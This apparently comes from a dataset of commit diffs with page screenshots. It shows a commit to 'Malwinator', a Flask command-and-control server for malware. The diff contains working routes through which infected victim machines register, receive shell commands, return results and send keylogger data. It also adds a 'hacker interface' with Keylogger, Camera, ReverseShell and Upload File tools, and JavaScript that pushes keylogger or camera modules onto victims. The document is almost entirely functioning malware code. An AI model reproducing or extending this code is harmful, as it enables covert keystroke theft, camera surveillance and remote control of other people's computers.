

Before and after one commit to MarioUta/Malwinator, a Flask app: page /upload in a window 1280 px wide. Shown: the top 663 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Improved keylogger functionality

```diff
--- a/app.py
+++ b/app.py
@@ -25,61 +25,7 @@
 
   return 1
 
-# server handshake to keep track of each host
-@app.route('/handshake', methods = ['POST'])
-def handshake():
-  global hosts
-  key = (request.remote_addr, request.form['name'])
-  hosts[key] = {'lock' : threading.Lock(), 'command' : '', 'status' : 'Down', 'log' : [''], 'command_result' : ''}
-  hosts[key]['lock'].acquire()
-  return 'Request accepted', 200
-
-# the download route for the download command
-@app.route('/download', methods = ['POST'])
-def download():
-  file = request.form['file']
-  path = './resources/' + file
-  if os.path.exists(path):
-    return send_file(path, as_attachment = True)
-  else:
-    return 'File not found', 404
-
-# the client is waiting here for the commands
-@app.route('/ready', methods = ['POST'])
-def timeout():
-  global hosts
-  key = (request.remote_addr, request.form['name'])
-
-  # the host blocks until the command is ready
-  hosts[key]['lock'].acquire()
-
-  # when the mutex is unlocked the command is sent to the host
-  return hosts[key]['command'], 200
-
-@app.route('/pong', methods = ['POST'])
-def pong():
-  global hosts
-
-  # this is where hosts can send their ping responses
-  # after a response the host status will be set
-  key = (request.remote_addr, request.form['name'])
-  hosts[key]['status'] = 'Up'
-
-  return 'Pong sent.', 200
-
-@app.route('/log', methods = ['POST'])
-def log_post():
-  global hosts
-
-  # this is where the host can send it's keylog data
-  key = (request.remote_addr, request.form['name'])
-  hosts[key]['log'].append(request.form['key'])
-
-  return 'Ok', 200
-
-
-
-#interface routes
+# interface routes
 @app.route('/')
 def displayHosts():
   global hosts
@@ -100,26 +46,60 @@
 
   return render_template('index.html', keys = keys)
 
-@app.route('/send', methods = ['GET'])
-def send_form():
+
+# server handshake to keep track of each host
+@app.route('/handshake', methods = ['POST'])
+def handshake():
+  global hosts
+  key = (request.remote_addr, request.form['name'])
+  hosts[key] = {'lock' : threading.Lock(), 'command' : '', 'status' : 'Down', 'log' : [''], 'command_result' : ''}
+  hosts[key]['lock'].acquire()
+  return 'Request accepted', 200
+
+@app.route('/pong', methods = ['POST'])
+def pong():
   global hosts
 
-  # this is for the hacker interface
-  name = request.args.get('name')
-  ip = request.args.get('ip')
+  # this is where hosts can send their ping responses
+  # after a response the host status will be set
+  key = (request.remote_addr, request.form['name'])
+  hosts[key]['status'] = 'Up'
 
-  return render_template('form.html', name = name, ip = ip)
+  return 'Pong sent.', 200
 
+# the client is waiting here for the commands
+@app.route('/ready', methods = ['POST'])
+def timeout():
+  global hosts
+  key = (request.remote_addr, request.form['name'])
+
+  # the host blocks until the command is ready
+  hosts[key]['lock'].acquire()
+
+  # when the mutex is unlocked the command is sent to the host
+  return hosts[key]['command'], 200
+
+# this is for the hacker interface
+# @app.route('/send', methods = ['GET'])
+# def send_form():
+#   global hosts
+
+#   name = request.args.get('name')
+#   ip = request.args.get('ip')
+
+#   return render_template('form.html', name = name, ip = ip)
+
+# this is for the general interface where you can pick different tools to control one victim
 @app.route('/toolkit', methods = ['GET'])
 def show_toolkit():
   global hosts
 
-  # this is for the hacker interface
   name = request.args.get('name')
   ip = request.args.get('ip')
 
   return render_template('toolkit.html', name = name, ip = ip)
 
+# this route is for sending data (especially commands) to the host
 @app.route('/send', methods = ['POST'])
 def send_process():
   global hosts
@@ -149,27 +129,47 @@
       hosts[(ip,name)]['command_result'] = "Command failed!"
     return render_template('command.html', name = name, ip = ip, last_command=command)
 
+
+# this is where the victim will send the command result
 @app.route('/result', methods = ['POST'])
 def result():
   global hosts
 
-  # this is where the victim will send the command result
   key = (request.remote_addr, request.form['name'])
   hosts[key]['command_result'] = request.form['result']
 
   return 'Ok', 200
 
+# this is where the web browser will call for the command result
 @app.route('/getResult', methods = ['POST'])
 def get_result():
   global hosts
   name = request.form['name']
   ip = request.form['ip']
-  # this is where the web browser will call for the command result
   key = (ip, name)
   return hosts[key]['command_result']
 
+# this is where the host can send it's keylog data
+@app.route('/log', methods = ['POST'])
+def log_post():
+  global hosts
 
-# the route for keylogger control
+  key = (request.remote_addr, request.form['name'])
+  hosts[key]['log'].append(request.form['key'])
+
+  return 'Ok', 200
+
+# this route if for clearing the log buffer
+@app.route('/clearLog', methods = ['POST'])
+def log_clear():
+  global hosts
+
+  key = (request.remote_addr, request.form['name'])
+  hosts[key]['log'].clear()
+
+  return 'Ok', 200
+
+# this is where the web browser will call for keylog data
 @app.route('/getLog', methods = ['GET', 'POST'])
 def getLog():
   global hosts
@@ -188,7 +188,17 @@
 
   return "Method not allowed", 403
 
-#route to the file uploading interface
+# the download route for the download command
+@app.route('/download', methods = ['POST'])
+def download():
+  file = request.form['file']
+  path = './resources/' + file
+  if os.path.exists(path):
+    return send_file(path, as_attachment = True)
+  else:
+    return 'File not found', 404
+
+# route to the file uploading interface
 @app.route('/upload', methods = ['GET'])
 def upload():
   global hosts
--- a/static/css/styles.css
+++ b/static/css/styles.css
@@ -7,6 +7,11 @@
     height: 100vh;
     margin: 0;
     font-family: Arial, sans-serif;
+}
+
+pre {
+  white-space: pre-wrap;
+  margin: 20px;
 }
 
 /* Style the form and buttons */
@@ -41,7 +46,7 @@
     background-color: #f4f4f4;
     margin: 20px;
     padding: 30px;
-    width: 50%;
+    width: 75%;
 }
 
 .title {
@@ -96,6 +101,11 @@
 
 .form-group {
     margin-bottom: 20px;
+    width: 75%;
+    display: flex;
+    justify-content: center; /* Horizontally center */
+    align-items: center; /* Vertically center */
+    flex-direction: column;
 }
 
 .form-label {
@@ -117,3 +127,63 @@
     background-color: #d6d6d6;
     padding: 5px;
 }
+
+h1 {
+    text-align: center;
+    color: #333;
+  }
+
+  .file-fieldset {
+    margin-bottom: 20px;
+  }
+
+  .file-label {
+    display: block;
+    margin-bottom: 10px;
+  }
+
+  .file-input {
+    margin-right: 5px;
+  }
+
+  .upload-path-label {
+    display: block;
+    margin-bottom: 10px;
+  }
+
+  .upload-path-input {
+    width: 100%;
+    padding: 8px;
+    margin-bottom: 20px;
+    border: 1px solid #ccc;
+    border-radius: 4px;
+  }
+
+  .module-select {
+    width: 100%;
+    padding: 8px;
+    margin-bottom: 20px;
+    border: 1px solid #ccc;
+    border-radius: 4px;
+  }
+
+  .upload-result {
+    text-align: center;
+    margin-bottom: 20px;
+  }
+
+  .command-result {
+    margin-bottom: 20px;
+  }
+
+  .btn-upload {
+    margin-right: 10px;
+  }
+
+  .btn-go-back {
+    background-color: #6c757d;
+  }
+
+  .btn-go-back:hover {
+    background-color: #5a6268;
+  }
--- a/static/js/upload.js
+++ b/static/js/upload.js
@@ -4,19 +4,29 @@
 
 function uploadFile(){
   var fileInput = document.querySelector('input[name="file_input"]:checked');
+  var module = document.getElementById("module").value;
   var path = document.getElementById('path').value;
   var resultDisplay = document.getElementById("uploadResult");
-  if(fileInput == null){
-    resultDisplay.textContent = "No file selected!";
-  }else if(path == ''){
+
+  if(path == ''){
     resultDisplay.textContent = "No path!";
   }
-  else{
+  else {
     const formData = new FormData();
 
-    command = "download \"" + fileInput.value + "\" \"" + path + "\"";
+    var flag = "";
 
-    console.log(command);
+    if (module == "Keylogger")
+      flag = " -k";
+    else if (module == "Camera")
+      flag = " -c";
+
+    if (fileInput != null)
+      command = "download" + flag + " \"" + fileInput.value + "\" \"" + path + "\"";
+    else
+      command = "download" + flag + " -r \"" + path + "\"";
+
+      console.log(command);
 
     formData.append("ip", ip);
     formData.append("name", name);
--- a/templates/command.html
+++ b/templates/command.html
@@ -23,6 +23,7 @@
             </div>
             <div class="form-group">
                 <input class="btn" type="submit" value="Execute">
+                <a class="btn btn-go-back" href="/toolkit?name={{name}}&ip={{ip}}">Go back</a>
             </div>
         </form>
         <p>Last command:</p>
--- a/templates/log.html
+++ b/templates/log.html
@@ -10,10 +10,10 @@
 <body>
   <h1>{{message}}</h1>
   <h3 id="commandResult"></h3>
-  <p id = "log-data"></p>
+  <pre id = "log-data"></pre>
   <a class="btn" onclick="sendCommand('log')">Start Log</a>
   <a class="btn" onclick="sendCommand('end log')">Stop Log</a>
-  <a class="btn" href="/toolkit?name={{name}}&ip={{ip}}">Go back</a>
+  <a class="btn btn-go-back" href="/toolkit?name={{name}}&ip={{ip}}">Go back</a>
 
   <script>
     ip = "{{ip}}"
--- a/templates/toolkit.html
+++ b/templates/toolkit.html
@@ -9,7 +9,7 @@
 <body>
     <h1>Choose a tool</h1>
     <a class="btn" href="/getLog?name={{name}}&ip={{ip}}">Keylogger</a>
-    <a class="btn" href="/?name={{name}}&ip={{ip}}">Camera&Mic</a>
+    <a class="btn" href="/?name={{name}}&ip={{ip}}">Camera</a>
     <a class="btn" href="/shell?name={{name}}&ip={{ip}}">ReverseShell</a>
     <a class="btn" href="/upload?name={{name}}&ip={{ip}}">Upload File</a>
     <a class="btn" href="/">See hosts</a>
--- a/templates/upload.html
+++ b/templates/upload.html
@@ -10,18 +10,38 @@
 
 </head>
 <body>
-  <h1>{{message}}</h1>
-  <fieldset>
-    {%for file in files%}
-    <label><input type="radio" id="{{file}}" name="file_input" value="{{file}}">{{file}}</label>
-    {%endfor%}
-  </fieldset>
-  <label>Upload path:</label>
-  <input type="text" id="path" name="path_input">
-  <h3 id="uploadResult"></h3>
-  <p id = "command-result"></p>
-  <a class="btn" onclick="uploadFile()">Upload File</a>
-  <a class="btn" href="/toolkit?name={{name}}&ip={{ip}}">Go back</a>
+  <div class="container">
+    <h1>{{message}}</h1>
+
+    <p>Note: if you have a module already installed on the remote computer and you just want to add/update the
+      path to it just put the new path (to the module's file on the machine not just the directory) and select the module without checking a file to be uploaded.</p>
+
+    <label class="upload-path-label">Files available:</label>
+
+    <fieldset class="file-fieldset">
+      {% for file in files %}
+      <label class="file-label">
+        <input type="radio" id="{{file}}" name="file_input" value="{{file}}" class="file-input">
+        {{file}}
+      </label>
+      {% endfor %}
+    </fieldset>
+
+    <label class="upload-path-label">Upload path:</label>
+    <input type="text" id="path" name="path_input" class="upload-path-input">
+
+    <label class="upload-path-label">Module:</label>
+    <select id="module" class="module-select">
+      <option value="Keylogger">Keylogger</option>
+      <option value="Camera">Camera</option>
+      <option value="None" selected>None</option>
+    </select>
+
+    <h3 id="uploadResult" class="upload-result"></h3>
+    <p id="command-result" class="command-result"></p>
+    <a class="btn btn-upload" onclick="uploadFile()">Upload File</a>
+    <a class="btn btn-go-back" href="/toolkit?name={{name}}&ip={{ip}}">Go back</a>
+  </div>
   <script>
     ip = "{{ip}}"
     name = "{{name}}"
```
Also changed, not shown: static/js/log.js (+4 -4 lines), 1 other file.
